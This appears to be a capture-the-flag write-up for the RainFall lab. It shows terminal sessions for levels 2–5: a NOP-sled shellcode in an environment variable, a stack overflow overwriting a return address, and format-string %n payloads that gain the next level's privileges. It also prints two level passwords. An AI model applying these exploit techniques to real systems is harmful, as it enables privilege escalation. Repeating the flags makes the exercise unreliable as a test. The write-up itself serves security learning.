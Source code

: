 ```bash
0xbffff4dd:      "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...

(gdb) x/s *((char**)environ)
0xbffff4dd:      "SHELLCODE=
(gdb) quit

level2@RainFall:~$ python -c 'print "A"*80 + "\x4b\x85\x04\x08" + "\x46\xf5\xff\xbf"' > /tmp/p
level2@RainFall:~$ (cat /tmp/p;cat) | ./level2 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAKAAAAAAAAAAAAKF���
$ id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
$ whoami
level3
$ 
```
## level 03
```bash

level3@RainFall:~$ (python -c 'import struct; print struct.pack("I", 0x804988c) + "%60c%4$n"';cat) | ./level3
�                                                           
Wait what?!
ls
ls: cannot open directory .: Permission denied
id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
whoami
level4
cd ../level4
cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## level 04
```bash
python -c 'print "\x10\x98\x04\x08"+"%16930112d%12$n"' | ./level4

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
## level 05
```bash

python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' | ./level5

id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
whoami 
level6
cd ../level6
cat .passwd
cat: .passwd: No such file or directory
```
